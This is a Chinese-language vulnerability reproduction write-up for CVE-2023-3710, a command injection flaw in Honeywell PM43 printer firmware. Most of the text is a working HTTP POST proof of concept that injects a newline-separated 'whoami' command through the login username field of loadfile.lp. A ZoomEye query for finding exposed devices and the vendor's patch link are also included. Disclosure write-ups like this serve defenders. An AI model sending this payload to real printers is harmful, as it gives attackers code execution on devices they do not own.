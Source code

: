 
# Honeywell PM43 loadfile.lp RCE 漏洞复现 (CVE-2023-3710）

### 0x01 产品简介

 Honeywell PM43 是美国霍尼韦尔（Honeywell）公司的一款打印机产品。

### 0x02 漏洞概述

  Honeywell PM43 P10.19.050004 之前版本存在输入验证错误漏洞，攻击者可通过该漏洞在服务器端任意执行代码，写入后门，获取服务器权限，进而控制整个 web 服务器。

### 0x03 影响范围

Honeywell Pm43\_Firmware < p10.19.050004

### 0x04 复现环境

钟馗之眼：app:"Honeywell PM43"

### ![](assets/1701826215-977e9d67f6b659923a56765a680ab34f.png)0x05 漏洞复现 

PoC

```cobol
POST /loadfile.lp?pageid=Configure HTTP/1.1
Host: {{Hostname}}
Accept-Encoding: gzip
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15
Content-Type: application/x-www-form-urlencoded

username=h%0Awhoami%0A&userpassword=pass&login=Login
```

### ![](assets/1701826215-cd20921c279ec068f01bc46e8ba922a4.png) 0x06 修复建议

 厂商已发布了漏洞修复程序，请及时关注更新：https://hsmftp.honeywell.com:443/en/Software/Printers/Industrial/PM23-PM23c-PM43-PM43c/Current/Firmware/firmwaresignedP1019050004
